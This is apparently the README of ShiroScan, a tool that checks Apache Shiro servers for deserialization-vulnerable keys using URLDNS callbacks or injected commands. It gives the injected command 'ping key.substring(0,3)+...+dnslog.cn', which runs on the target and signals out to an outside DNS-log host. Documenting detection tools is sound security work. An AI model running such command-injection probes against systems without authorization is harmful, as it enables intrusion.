 ## Shiro反序列化检测工具

用于检测存在Shiro反序列化漏洞的key值。有两种方式进行检测，一种是利用URLDNS进行检测，第二种利用命令执行进行检测。

![](images/01.png)

### 功能简介

- 默认DNSLOG

选择后会调用`dnslog.cn`的接口，生成一个域名，进行检测后，结果会输出在结果区域。

> 选择该选项时，会有卡顿，正在从`dnslog.cn`获取域名，并显示。

- 自定义DNSLOG

需要自己输入一个dnslog地址，进行检测后去输入的dnslog平台去查看结果

- 使用URLDNS

利用URLDNS进行检测。

参考：https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

- 使用payloads

通过执行`ping`命令来检测。

### 使用

1.自行打包使用

```bash
git clone https://github.com/fupinglee/ShiroScan
cd ShiroScan
mvn clean package -DskipTests=true
```

打开target下的jar文件即可执行

2.直接下载使用

https://github.com/fupinglee/ShiroScan/releases

### 运行效果

使用`默认DNSLOG+URLDNS`进行检测

![使用默认DNSLOG1](images/02.png)

使用`自定义DNSLOG+URLDNS`进行检测

![使用自定义DNSLOG1](images/03.png)

使用`默认DNSLOG+Payloads`检测

![使用默认DNSLOG2](images/04.png)

> 这里使用的命令是`ping key.substring(0,3)+"."+payload+"."+"dnslog.cn"`

使用`自定义DNSLOG+Payloads`检测

![使用自定义DNSLOG2](images/05.png)



### 参考

https://github.com/wh1t3p1g/ysoserial

https://github.com/frohoff/ysoserial

https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

### 其他

**仅供安全人员进行有授权的验证,勿用于非法测试**

